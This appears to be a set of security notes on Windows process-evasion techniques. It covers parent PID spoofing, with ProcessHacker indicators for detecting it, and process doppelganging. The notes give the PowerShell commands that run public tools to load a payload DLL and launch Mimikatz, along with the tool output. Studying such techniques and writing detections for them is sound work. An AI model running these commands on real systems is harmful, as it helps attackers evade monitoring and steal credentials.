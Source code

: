 # Parent PID spoofing
[PPID-Spoofing](https://github.com/WithSecureLabs/ppid-spoofing/blob/master/PPID-Spoof.ps1)

```
PS> import-module .\PPID-Spoof.ps1
PS> PPID-Spoof -ppid 1944 -spawnTo "C:\Windows\System32\win32calc.exe" -dllPath .\msimplepayload.dll
```

### Detection
- [detect-ppid-spoof.py](https://github.com/WithSecureLabs/ppid-spoofing/blob/master/detect-ppid-spoof.py) 

> **ProcessHacker**
> - On General Tab:
>   - Commandline: 0
>   - Suspicious "Current Directory" (location of the payload)
>   - Parent Process: Duplicated from the filename of the parent process.
> - On Threads Tab:
>   - Only has Stard Address of Duplicated Process.
> - On Handles Tab:
>   - 0x40 shows the location of current directory
>   - Spoofed Process has single Thread related to its filename.
> - On Modules Tab:
>   - Same with Process Injection, the payload can be traced in Modules Tab. Get the base adress.\
> - On Memory Tab:
>   - Locate the payload using base adress on Modules Tab. Usually has WCX/RCX protection.

# Process Doppelganging

[PowerShell-Suite  - Start-Eidolon](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Start-Eidolon.ps1)

```
PS> Import-Module .\Start-Eidolon.ps1
PS> Start-Eidolon -Target .\test.txt -Mimikatz -Verbose
VERBOSE: [+] Created transaction object
VERBOSE: [+] Created transacted file
VERBOSE: [+] Overwriting transacted file
VERBOSE: [+] Created section from transacted file
VERBOSE: [+] Rolled back transaction changes
VERBOSE: [+] Created process from section
VERBOSE: [+] Acquired Eidolon PBI
VERBOSE: [+] Eidolon architecture is 64-bit
VERBOSE: [+] Eidolon image base: 0x7FF7D0FF0000
VERBOSE: [+] Eidolon entry point: 0x7FF7D10640C8
VERBOSE: [+] Created Eidolon process parameters
VERBOSE: [+] Allocated memory in Eidolon
VERBOSE: [+] Process parameters duplicated into Eidolon
VERBOSE: [+] Rewrote Eidolon->PEB->pProcessParameters
VERBOSE: [+] Created Eidolon main thread..
True
```
